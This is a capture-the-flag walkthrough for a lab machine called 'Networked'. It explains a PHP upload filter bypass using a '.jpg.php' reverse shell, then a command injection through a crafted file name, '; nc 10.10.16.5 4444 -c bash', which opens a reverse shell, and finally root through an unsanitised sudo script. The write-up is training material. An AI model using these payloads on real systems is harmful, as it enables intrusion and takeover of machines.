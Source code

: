 # Networked

## Gaining Access

Nmap scan:

<figure><img src="../../../.gitbook/assets/image (9) (1) (1) (6).png" alt=""><figcaption></figcaption></figure>

### File Upload RCE

First, we can use `gobuster` on the website:

<figure><img src="../../../.gitbook/assets/image (24) (2) (1) (2).png" alt=""><figcaption></figcaption></figure>

The `/backup` directory would show us a directory with a backup file:

<figure><img src="../../../.gitbook/assets/image (164) (1).png" alt=""><figcaption></figcaption></figure>

Within the backup file, there's this PHP code here:

```php
<?php
require '/var/www/html/lib.php';

define("UPLOAD_DIR", "/var/www/html/uploads/");

if( isset($_POST['submit']) ) {
  if (!empty($_FILES["myFile"])) {
    $myFile = $_FILES["myFile"];

    if (!(check_file_type($_FILES["myFile"]) && filesize($_FILES['myFile']['tmp_name']) < 60000)) {
      echo '<pre>Invalid image file.</pre>';
      displayform();
    }

    if ($myFile["error"] !== UPLOAD_ERR_OK) {
        echo "<p>An error occurred.</p>";
        displayform();
        exit;
    }

    //$name = $_SERVER['REMOTE_ADDR'].'-'. $myFile["name"];
    list ($foo,$ext) = getnameUpload($myFile["name"]);
    $validext = array('.jpg', '.png', '.gif', '.jpeg');
    $valid = false;
    foreach ($validext as $vext) {
      if (substr_compare($myFile["name"], $vext, -strlen($vext)) === 0) {
        $valid = true;
      }
    }

    if (!($valid)) {
      echo "<p>Invalid image file</p>";
      displayform();
      exit;
    }
    $name = str_replace('.','_',$_SERVER['REMOTE_ADDR']).'.'.$ext;

    $success = move_uploaded_file($myFile["tmp_name"], UPLOAD_DIR . $name);
    if (!$success) {
        echo "<p>Unable to save file.</p>";
        exit;
    }
    echo "<p>file uploaded, refresh gallery</p>";

    // set proper permissions on the new file
    chmod(UPLOAD_DIR . $name, 0644);
  }
} else {
  displayform();
}
?>
```

In short, we can see that this file checks for the file extensions before accepting a file. Seeing that this is a PHP file, we can attempt to upload a PHP reverse shell. To bypass the extension check, notice how it uses `substr_compare` and verifies whether a valid extension is present. As such, we can create a file ending in `.jpg.php` to bypass this:

<figure><img src="../../../.gitbook/assets/image (77) (2).png" alt=""><figcaption></figcaption></figure>

Then, we can upload it to `upload.php`. We can visit `photos.php` to trigger the shell:

<figure><img src="../../../.gitbook/assets/image (4) (1) (5) (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (168) (2).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### To Guly

Within the machine, we can view the user `guly` directory:

<figure><img src="../../../.gitbook/assets/image (154) (4).png" alt=""><figcaption></figcaption></figure>

The crontab specifies that the user is running the `check_attack` script routinely.

<figure><img src="../../../.gitbook/assets/image (169) (2).png" alt=""><figcaption></figcaption></figure>

One dangerous part of this script is the usage of `exec` to run stuff. The `$value` variable is not sanitised, and we can exploit this by creating a file with the name of `; nc 10.10.16.5 4444 -c bash` within the `/var/www/html/uploads` directory. After doing this and waiting, we would gain a reverse shell and can capture the user flag:

<figure><img src="../../../.gitbook/assets/image (28) (2) (4).png" alt=""><figcaption></figcaption></figure>

### To Root

We can check the `sudo` privileges of this user and find that there's one script we can run as `root`.

<figure><img src="../../../.gitbook/assets/image (58) (4) (1).png" alt=""><figcaption></figcaption></figure>

Here's the script's contents:

<figure><img src="../../../.gitbook/assets/image (56) (2) (3).png" alt=""><figcaption></figcaption></figure>

This takes user input and executes does not sanitise it at all. When we run the script, we can actually execute commands:

<figure><img src="../../../.gitbook/assets/image (2) (2) (2) (2).png" alt=""><figcaption></figcaption></figure>

To get a `root` shell, we just need to run `/bin/bash`:

<figure><img src="../../../.gitbook/assets/image (23) (2) (4) (2).png" alt=""><figcaption></figcaption></figure>

Rooted!
